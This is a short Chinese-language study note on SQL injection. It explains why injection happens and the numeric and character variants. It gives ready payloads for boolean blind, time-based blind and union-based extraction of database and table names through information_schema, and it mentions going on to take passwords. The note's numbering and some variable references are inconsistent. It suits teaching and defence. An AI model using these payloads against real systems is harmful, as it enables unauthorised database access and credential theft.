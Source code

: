 ## 漏洞原理

1. 程序编写者在处理程序和数据库交互时，使用字符串拼接的方式构造SQL 语句。

1. 未对用户可控参数进行足够的过滤，便便将参数内容拼接到SQL 语句中。

## sql漏洞类型

1. 数字型。

2. 字符型。

> 判断方式：输入`2-1`看看是否报错。

## sql漏洞利用方式

### 主流方式

3. 布尔盲注。`id=1' and ascii(substr(database(), 3, 1))=99--+`

尝试不同`115`变量，界面变化，代表试出正确值。

2. 延时盲注。`id=2' and if(length(database())=8, sleep(5), 1)--+`

尝试不同`8`变量，响应时间变成 5+second ，代表试出正确值。

1. 报错注入。

2. 联合查询。
   - 条件：一是字段数相同，二是数据类型相同。

    1. column数。
   
`order by`判断columns数。`order by`按字段排序，后面是根据的column编号，编号从1开始。

`id=1' order by 2--+`

    1. database名字。
   
`union`联合查询,column数必须相同。union前查询结果与后查询结果在同一个表中显示。

`id=1' and 1=1 union select 1, database(), 3--+`

    3. table名。从目标数据库中提取所有表名

**代码**：
```sql
id = 1 and 1 = 2 union 
select 1, group_concat(table_name), 3 from information_schema.tables
where table_schema = database()--+
```

**攻击效果**
如果注入成功，数据库会返回类似：
```
1 | users,products,admins | 3
```
知道当前数据库的所有表名，进而进一步攻击（如查询 `users` 表获取密码）。
